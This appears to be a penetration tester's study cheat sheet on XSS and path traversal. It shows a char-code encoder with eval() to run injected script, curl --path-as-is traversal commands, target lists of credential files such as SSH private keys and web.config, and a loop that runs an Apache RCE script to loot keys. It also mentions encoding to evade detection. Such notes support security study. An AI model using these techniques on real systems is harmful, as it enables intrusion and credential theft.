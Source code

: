 # XSS
- We can encode our java script payload to make sure that bad characters are not being an issue while sending it. 
```JS
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
- The encoded string can then be executed using `eval()`
```JS
<script>eval(String.fromCharCode(ENCODED_PAYLOAD))</script>
```

# Path Traversal
- Use the option `--path-as-is` when using `curl`. Otherwise the path will get squased
```zsh
curl --path-as-is http://192.168.248.193:3000/public/plugins/alertlist/../../../../../conf/defaults.ini
```
## Common Paths
#### Linux
- Common paths to test
```zsh
/etc/passwd
/home/userfrompasswd/.ssh/id_rsa
``` 
> [!IMPORTANT]
> SSH private keys can potentially have different names. Check for them using 
> ```zsh
> for privkey in $(cat private_key_names); do ./apache_2.4.49_rce.sh targets.txt /home/anita/.ssh/$privkey; done
> ```
> A list of common names for private keys can be found on [Github](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)
#### Windows
- Common paths to test
```zsh
C:\Windows\System32\drivers\etc\hosts
C:\inetpub\wwwroot\web.config -- IIS config
C:\inetpub\logs\LogFiles\W3SVC1\ -- IIS logs directory
```
- We do not need to specify the drive letter upon reaching the root node
```zsh
curl --path-as-is http://192.168.248.193:3000/public/plugins/alertlist/../../../../../../../../Windows/System32/drivers/etc/hosts

```
## Encoding
- As the pattern `../` often gets detected, we can encode it to avoid this